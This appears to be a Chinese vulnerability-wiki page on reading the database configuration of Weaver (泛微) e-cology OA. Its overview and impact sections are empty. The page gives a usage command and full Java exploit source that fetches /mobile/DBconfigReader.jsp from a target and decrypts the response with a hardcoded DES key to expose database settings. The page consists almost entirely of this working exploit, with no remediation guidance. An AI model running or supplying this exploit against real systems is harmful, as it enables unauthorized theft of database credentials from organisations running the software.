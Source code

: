 ```yaml
---
title: "泛微OA数据库配置文件读取"
id: zhfly3328
---
```


# 泛微OA 数据库配置文件读取

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

https://github.com/ianxtianxt/ecologyExp.jar

使用方式：

jdk 1.8以上，没混淆可以直接看源码

使用方法：

java -jar ecologyExp.jar http://0-sec.org

源代码如下，编译好的在上方github链接里。

```
package com.test;

import org.apache.http.HttpEntity;

import org.apache.http.client.methods.CloseableHttpResponse;

import org.apache.http.client.methods.HttpGet;

import org.apache.http.impl.client.CloseableHttpClient;

import org.apache.http.impl.client.HttpClientBuilder;

import org.apache.http.util.EntityUtils;

import javax.crypto.Cipher;

import javax.crypto.SecretKey;

import javax.crypto.SecretKeyFactory;

import javax.crypto.spec.DESKeySpec;

import java.security.SecureRandom;

public class ReadDbConfig {

private final static String DES = “DES”;

private final static String key = “1z2x3c4v5b6n”;

```
public static void main(String[] args) throws Exception {
    if(args[0]!=null&amp;&amp; args[0].length() !=0){
        String url = args[0]+"/mobile/DBconfigReader.jsp";
        System.out.println(ReadConfig(url));
    }else{
        System.err.print("use: java -jar ecologyExp  http://127.0.0.1");
    }
}

private static String ReadConfig(String url) throws Exception {
    CloseableHttpClient httpClient = HttpClientBuilder.create().build();
    HttpGet httpGet = new HttpGet(url);
    CloseableHttpResponse response = httpClient.execute(httpGet);
    HttpEntity responseEntity = response.getEntity();

    byte[] res1 = EntityUtils.toByteArray(responseEntity);

    byte[] data = subBytes(res1,10,res1.length-10);

    byte [] finaldata =decrypt(data,key.getBytes());

    return (new String(finaldata));
}

private static byte[] decrypt(byte[] data, byte[] key) throws Exception {

    SecureRandom sr = new SecureRandom();
    DESKeySpec dks = new DESKeySpec(key);
    SecretKeyFactory keyFactory = SecretKeyFactory.getInstance(DES);
    SecretKey securekey = keyFactory.generateSecret(dks);
    Cipher cipher = Cipher.getInstance(DES);
    cipher.init(Cipher.DECRYPT_MODE, securekey, sr);

    return cipher.doFinal(data);
}

public static byte[] subBytes(byte[] src, int begin, int count) {
    byte[] bs = new byte[count];
    System.arraycopy(src, begin, bs, 0, count);
    return bs;
} 
``` `}` 
```